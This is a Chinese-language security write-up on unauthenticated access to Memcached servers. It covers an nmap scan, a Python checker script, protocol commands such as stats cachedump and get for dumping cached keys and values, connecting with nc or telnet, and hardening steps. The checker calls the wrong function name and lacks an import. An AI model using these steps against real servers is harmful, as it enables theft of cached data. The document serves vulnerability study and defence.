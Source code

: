 Memcache未授权访问
==================

一、漏洞简介
------------

> memcached是一套分布式的高速缓存系统。它以Key-Value（键值对）形式将数据存储在内存中，这些数据通常是应用读取频繁的。正因为内存中数据的读取远远大于硬盘，因此可以用来加速应用的访问。

二、影响范围
------------

三、复现过程
------------

#### 1.扫描探测

    nmap -sV -p 11211 --script memcached-info 0.0.0.0

![](./resource/Memcache未授权访问/media/rId25.png)

    ##! /usr/bin/env python
    ## _*_  coding:utf-8 _*_
    def Memcache_check(ip, port=11211, timeout=5):
        try:
            socket.setdefaulttimeout(timeout)
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.connect((ip, int(port)))
            s.send("stats\r\n")
            result = s.recv(1024)
            if "STAT version" in result:
                print '[+] Memcache Unauthorized: ' +ip+':'+str(port)
        except Exception, e:
            pass
    if __name__ == '__main__':
        Elasticsearch_check("127.0.0.1")

#### 2.攻击利用

##### 2.1 基础部分

通过一个cheat
sheet了解一下Memcached的协议。Memcached的语法由如下元素组成

-   {COMMAND}0x20{ARGUMENT}(LF\|CRLF)

command字段有如下几条命令

-   存储操作(set, add, replace, append, prepend, cas)

-   检索操作 (get, gets)

-   删除操作 (delete)

-   增减操作 (incr, decr)

-   touch

-   slabs reassign

-   slabs automove

-   lru\_crawler

-   统计操作(stats items, slabs, cachedump)

-   其他操作 (version, flush\_all, quit)

  Command        描述                实例
  -------------- ------------------- --------------------
  get            读某个值            get mykey
  set            强制设置某个键值    set mykey 0 60 5
  add            添加新键值对        add newkey 0 60 5
  replace        覆盖已经存在的key   replace key 0 60 5
  flush\_all     让所有条目失效      flush\_all
  stats          打印当前状态        stats
  stats malloc   打印内存状态        stats malloc

version \| 打印Memcached版本 \| version

    stats  //查看memcache 服务状态
    stats items  //查看所有items
    stats cachedump 32 0  //获得缓存key
    get :state:264861539228401373:261588   //通过key读取相应value ，获得实际缓存内容，造成敏感信息泄露

#### 2.2 建立连接并获取信息

telnet 11211，或 nc -vv 11211，无需用户名密码，可以直接连接memcache
服务的11211端口。

![](./resource/Memcache未授权访问/media/rId29.png) 附赠大佬写的文章
[Discuz!因Memcached未授权访问导致的RCE](https://xz.aliyun.com/t/2018)

#### 3.防范措施

##### 1.限制访问

如果memcache没有对外访问的必要，可在memcached启动的时候指定绑定的ip地址为
127.0.0.1。其中 -l 参数指定为本机地址。例如： memcached -d -m 1024 -u
root -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

或者 vim /etc/sysconfig/memcached，修改配置文件 OPTIONS=\"-l
127.0.0.1\"，只能本机访问，不对公网开放，保存退出 /etc/init.d/memcached
reload

##### 2.防火墙

    // accept
    ## iptables -A INPUT -p tcp -s 127.0.0.1 --dport 11211 -j ACCEPT
    ## iptables -A INPUT -p udp -s 127.0.0.1 --dport 11211 -j ACCEPT

    // drop
    ## iptables -I INPUT -p tcp --dport 11211 -j DROP
    ## iptables -I INPUT -p udp --dport 11211 -j DROP

    // 保存规则并重启 iptables
    ## service iptables save
    ## service iptables restart

##### 3.使用最小化权限账号运行Memcached服务

使用普通权限账号运行，指定Memcached用户。

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11211 -c 1024 -P /tmp/memcached.pid

##### 4.启用认证功能

Memcached本身没有做验证访问模块,Memcached从1.4.3版本开始，能支持SASL认证。[SASL认证详细配置手册](http://www.postfix.org/SASL_README.html?spm=a2c4g.11186623.2.5.RpKdcX##saslauthd)

##### 5.修改默认端口

修改默认11211监听端口为11222端口。在Linux环境中运行以下命令：

    memcached -d -m 1024 -u memcached -l 127.0.0.1 -p 11222 -c 1024 -P /tmp/memcached.pid

##### 6.定期升级

参考:

<http://lzone.de/cheat-sheet/memcached>

<https://www.secpulse.com/archives/49659.html>

<https://www.sensepost.com/blog/2010/blackhat-write-up-go-derper-and-mining-memcaches/>

<https://www.blackhat.com/docs/us-14/materials/us-14-Novikov-The-New-Page-Of-Injections-Book-Memcached-Injections-WP.pdf>

<http://niiconsulting.com/checkmate/2013/05/memcache-exploit/>

<https://xz.aliyun.com/t/2018>

<http://drops.xmd5.com/static/drops/web-8987.html>

https://blog.csdn.net/microzone/article/details/79262549\<
